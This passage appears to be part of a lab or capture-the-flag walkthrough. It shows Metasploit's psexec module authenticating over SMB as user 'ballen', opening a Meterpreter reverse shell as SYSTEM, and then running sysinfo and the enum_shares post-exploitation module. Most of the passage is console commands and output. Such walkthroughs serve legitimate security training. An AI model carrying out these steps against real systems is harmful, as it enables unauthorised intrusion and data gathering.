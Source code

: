 ```console

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.13.17.49:4444 
[*] 10.10.244.120:445 - Connecting to the server...
[*] 10.10.244.120:445 - Authenticating to 10.10.244.120:445 as user 'ballen'...
[*] 10.10.244.120:445 - Selecting PowerShell target
[*] 10.10.244.120:445 - Executing the payload...
[+] 10.10.244.120:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.10.244.120
[*] Meterpreter session 1 opened (10.13.17.49:4444 -> 10.10.244.120:49181) at 2023-03-06 10:33:51 -0700

meterpreter >  
```
We can use the `sysinfo` command to get more information on the target system.

```console
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```
In order to find any possible shares created by the user we can use the Metaploit module `post/windows/gather/enum_shares`. Note that we need to background our Meterpreter session before we can use the module.

```console
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_shares 
msf6 post(windows/gather/enum_shares) > show options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate recently entered UNC Paths in the Run Dialog
   RECENT   true             yes       Enumerate recently mapped shares
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(windows/gather/enum_shares) > sessions

Active sessions
===============

  Id  Name  Type                     Information                      Connection
  --  ----  ----                     -----------                      ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-TEST  10.13.17.49:4444 -> 10.10.244.120:49181 (10.
                                                                      10.244.120)

```